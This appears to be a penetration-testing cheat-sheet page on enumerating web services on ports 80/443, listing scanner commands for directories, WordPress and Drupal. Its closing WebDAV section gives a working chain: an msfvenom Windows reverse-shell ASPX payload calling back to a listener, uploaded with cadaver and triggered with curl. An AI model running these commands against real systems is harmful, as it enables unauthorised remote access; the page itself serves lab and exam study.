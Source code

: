 # 80,443 - HTTP/S

**Directory enumeration:**&#x20;

**Apache** : x -> php, asp, txt, xml, bak\
**IIS** : x-> asp, aspx, txt, ini, tmp, bak, old



```
whatweb http://192.168.50.244
```

{% code overflow="wrap" %}
```sh
nikto -h IP_ADDR

gobuster -e -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -s 200,204,301,302

dirsearch -u https://$IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e php,txt,sh -x 404 -t 100

wfuzz -w wordlist.txt --filter "c=200 and l>0" http://I$P/somepath.php?url=FUZZ
```
{% endcode %}

## Services

{% code overflow="wrap" %}
```sh
cmsmap http://IP_ADDR -f (D,J…)
```
{% endcode %}

### Wordpress

Enumeration:

```
wpscan --url http://IP_ADDR --enumerate u,p,t 
```

{% code overflow="wrap" %}
```
wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan
```
{% endcode %}



Wordpress plugin to get a reverse shell:

```
```



### Drupal



```
droopescan scan drupal -u http://IP_ADDR
```



### WebDav

Create a reverse shell (this is for windows):

{% code overflow="wrap" %}
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx
```
{% endcode %}

Upload shell using WebDAV client (cadaver):

```sh
cadaver http://192.168.219.122

> put shell.aspx
```

trigger shell to get connection:

```
curl http://192.168.219.122/shell.aspx
```



